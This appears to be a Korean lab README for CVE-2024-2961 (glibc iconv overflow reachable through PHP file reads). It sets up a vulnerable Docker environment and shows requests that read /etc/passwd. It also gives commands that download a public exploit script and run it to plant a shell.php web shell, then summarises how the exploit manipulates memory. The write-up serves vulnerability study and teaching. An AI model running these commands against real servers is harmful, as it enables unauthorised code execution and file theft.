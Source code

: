 # 📌 CVE-2024-2961: PHP 파일 읽기를 통한 원격 코드 실행 취약점 (GNU C Library Iconv) 🛡️
**CVE-2024-2961**은 **PHP 애플리케이션**에서 **원격 코드 실행**(RCE)을 가능하게 하는 취약점이다.  
이 취약점은 **GNU C 라이브러리**(glibc)의 **iconv() 함수**에서 발생하며, 그로 인해 **버퍼 오버플로우**와 **원격 코드 실행**(RCE) 공격이 가능하다.  
  
<br>

## 📚 Table of Contents
- [취약점 개요 (Vulnerability Overview) 🛡️](#%EF%B8%8F-%EC%B7%A8%EC%95%BD%EC%A0%90-%EA%B0%9C%EC%9A%94-vulnearability-overview)
- [취약점 영향 (Impact) ⚠️](#%EF%B8%8F-%EC%B7%A8%EC%95%BD%EC%A0%90-%EC%98%81%ED%96%A5-impact)
- [취약한 환경 설정 (Vulnerable Environment) ⚙️](#%EF%B8%8F-%EC%B7%A8%EC%95%BD%ED%95%9C-%ED%99%98%EA%B2%BD-%EC%84%A4%EC%A0%95-vulnerable-environment)
- [취약점 악용 (Exploit) 👾](#-취약점-악용-exploit)
- [PoC 코드 개요 (PoC Summary) 💻](#-poc-%EC%BD%94%EB%93%9C-%EA%B0%9C%EC%9A%94poc-summary)
- [취약점 악용 흐름도 (Exploit Flow Diagram) ⏳](#-취약점-악용-흐름도-exploit-flow-diagram)

<br>

## 🛡️ 취약점 개요 (Vulnearability Overview)
**GNU C 라이브러리**(glibc)는 호환성, 이식성, 높은 성능을 자랑하는 ISO C 라이브러리이다.  
**CVE-2024-2961**은 GNU C 라이브러리 **2.39 이하** 버전에서 발생하는 취약점으로, `iconv()` 함수에서 발생한다.  
특히, 문자열을 **ISO-2022-CN-EXT** 문자 집합으로 변환할 때, 출력 버퍼가 최대 **4바이트까지 오버플로우**되어 애플리케이션 충돌을 일으키거나 변수를 덮어쓸 수 있다.  
이 취약점은 **PHP 애플리케이션의 파일 읽기 취약점**과 결합되면서, 공격자가 **원격 코드 실행**(RCE) 공격을 수행할 수 있게 만든다.  

**참고문헌:**
- https://www.ambionics.io/blog/iconv-cve-2024-2961-p1

<br>

## ⚠️ 취약점 영향 (Impact)
- **버퍼 오버플로우**: 오버플로우로 인해 애플리케이션 충돌이나 메모리 손상이 발생할 수 있다.
- **원격 코드 실행**: 이 취약점을 악용하면 공격자가 원격에서 임의의 코드를 실행할 수 있다.

<br>

## ⚙️ 취약한 환경 설정 (Vulnerable Environment)
다음 명령어를 실행하여 **PHP 8.3.4** 서버와 **iconv 2.36** 버전이 포함된 환경을 시작한다:
   ```bash
   docker compose up -d
   ```
   서버가 시작되면, 브라우저에서 http://localhost:8080/index.php?file=/etc/passwd를 통해 /etc/passwd 파일을 읽을 수 있다.  

<br>

## 👾 취약점 악용 (Exploit)
1. 취약점을 악용하려면, Linux 기반 시스템과 **Python 3.10** 이상이 필요하다.
2. 필요한 종속성을 설치한다:
   ```bash
   pip install pwntools
   pip install https://github.com/cfreal/ten/archive/refs/heads/main.zip
   ```
3. PoC를 다운로드하고 실행한다:

   ```bash
   wget https://raw.githubusercontent.com/ambionics/cnext-exploits/main/cnext-exploit.py
   python cnext-exploit.py http://localhost:8080/index.php "echo '<?=phpinfo();?>' > shell.php"
   ```

   ❗주의: 만약 `localhost`가 작동하지 않는다면, 대신 자신의 IP 주소를 사용해야 한다.
   
   💡참고: 자신의 IP 주소는 `ipconfig` 명령어를 사용하여 확인할 수 있다.

     - Linux 환경에서는 `eth0` 인터페이스에서 IP를 확인할 수 있다.
       
   예를 들어, 자신의 IP 주소가 `192.168.1.100`이라면 아래와 같이 입력한다:
   ```bash
   python cnext-exploit.py http://192.168.1.100:8080/index.php "echo '<?=phpinfo();?>' > shell.php"
   ```
   `your-ip`는 `ipconfig` 명령어를 통해 확인한 실제 IP 주소로 바꿔야 한다.

   ![image](image1.png)
    이처럼 shell.php가 성공적으로 작성된다.
   
4. 브라우저에서 `shell.php`를 확인한다.
   ```bash
   http://localhost:8080/shell.php
   ```
   ![image](image2.png)
   위와 같이 `shell.php`가 잘 실행된다.

<br>

## 💻 PoC 코드 개요(PoC Summary)
`cnext-exploit.py`는 대상 서버의 **파일 읽기 취약점**을 이용하여, **glibc iconv 버그**를 트리거하고 **원격 코드 실행(RCE)**을 달성하는 익스플로잇 스크립트이다.

- 서버가 지원하는 PHP 스트림(wrapper) 기능 (`php://filter', 'zlib.inflate' 등)을 이용하여 서버 메모리를 조작한다.
- `/proc/self/maps` 파일을 통해 PHP 프로세스의 메모리 레이아웃(libc, 힙 주소 등)을 수집한다.
- `iconv()` 함수의 버퍼 오버플로우 취약점을 이용하여 메모리 구조를 덮어쓰고, 시스템 명령어 실행이 가능하도록 한다.
- 최종적으로 서버에 원하는 PHP 파일(`shell.php`)을 생성하여, 원격에서 명령어를 실행할 수 있다.

<br>

## ⏳ 취약점 악용 흐름도 (Exploit Flow Diagram)
```text
1. 환경 구성(PHP 8.34 + iconv 2.36)
2. /etc/passwd 파일 읽기 확인
3. PoC 스크립트 실행 (cnext-exploit.py)
4. shell.php 파일 생성
5. shell.php 접속 및 명령어 실행
6. 원격 코드 실행(RCE) 성공
```

<br>

## 📎 레포지토리 링크 (Repository URL)
이 프로젝트의 GitHub 레포지토리는 아래 링크에서 확인하실 수 있습니다:  
[https://github.com/YUDINDIN1005/kr-vulhub/tree/main/php/CVE-2024-2961](https://github.com/YUDINDIN1005/kr-vulhub/tree/main/php/CVE-2024-2961)
